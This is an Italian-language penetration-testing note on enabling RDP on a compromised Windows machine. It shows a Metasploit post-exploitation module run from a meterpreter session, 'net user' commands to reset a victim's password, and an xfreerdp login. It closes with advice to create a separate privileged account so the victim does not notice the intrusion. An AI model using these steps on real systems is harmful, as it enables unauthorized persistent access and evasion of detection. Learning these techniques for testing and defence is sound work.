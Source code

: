 
# Abilitazione di RDP
RDP (Remote Desktop Protocol) é disabilitato di default nei sistemi windows. <br>
Esiste un modulo Meteasploit per poterlo abilitare ma dobbiamo avere prima una sessione meterpreter con dei privilegi elevati. <Br>
```bash
use post/windows/menage/enable_rdp
set SESSION 1
set PASSWORD <pasword>                 # impostiamo una password per l'account che il modulo creerà
set USERNAME <username>                # impostiamo uno username per l'account che il modulo creerà
run
```

possiamo anche cambiare le credenziali di un utente se RDP é già abilitato. <br>
```bash
shell
net users          # per vedere che utenti sono presenti nel target
net user <username> <nuovaPassword>
```
per poterci autenticare con le nuove credenziali, usiamo `xfreerdp`
```bash
xfreerdp /u:<username> /p:<oassword> /v:<IP>
y

```
Questo metodono non é consigliato se non si volessero destare sospetti dato che se un utente dovesse vedere che la sua password non gli fará piú ottenere l'accesso al servizio RDP, potrebbe sospettare di essere stato soggetto ad un attacco, meglio se creiamo un altro account con permessi elevati e effettuiamo l'accesso da quello.

---

